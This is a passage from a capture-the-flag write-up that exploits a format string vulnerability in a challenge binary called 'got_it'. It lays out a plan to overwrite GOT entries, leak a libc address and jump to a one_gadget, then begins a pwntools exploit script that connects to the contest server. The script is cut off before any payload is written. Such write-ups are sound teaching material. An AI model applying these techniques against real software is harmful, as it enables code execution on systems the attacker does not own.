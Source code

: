 Bingo. Looking back, we can start to see a pretty obvious [Format String vulnerability](https://owasp.org/www-community/attacks/Format_string_attack) because our input was called with `scanf` which actually points to `printf` after the GOT entries got scrambled. This gives us both a read primitive and write primitive i.e. we can read and write to a target address (as long as permissions allow).

Okay so let's summarize our plan of attack:

1. First payload (Loop main around, disable sleep)
    - Loop around main to send more payloads
        - Overwrite `exit` GOT entry to `main`
    - Disable 30s sleep (in setup)
        - Overwrite `sleep` GOT entry to a ret gadget
        - Overwrite `alarm` GOT entry to a ret gadget
        - Overwrite `signal` GOT entry to a ret gadget

2. Second payload
  - Leak libc address of `__libc_start_main + 231`.

3. Third payload
  - Overwrite `printf` GOT entry to `one_ gadget`

Now let's write our exploit.

```python
#! /usr/bin/python3

from pwn import *

HOST = 'pwn.hsctf.com'
PORT = 5004
BINARY = './got_it'
LIBC_PATH = './libc.so.6'

elf = context.binary = ELF(BINARY)
libc = ELF(LIBC_PATH)

elf.symbols['ret'] = 0x4012f8  # ret slide
libc.symbols['one_gadget'] = 0x4f322


def send_payload(payload):
    log.info(f'Payload: {repr(payload)}')

    r.sendline(payload)

    r.recvuntil('"')
    response = r.recvuntil('"')[:-1]

    r.recvuntil('worked!!')

    r.sendline()
    r.sendline()

    return response


# Add some swag

splash()

# Start connection

r = remote(HOST, PORT)

# Initialize format string helper

```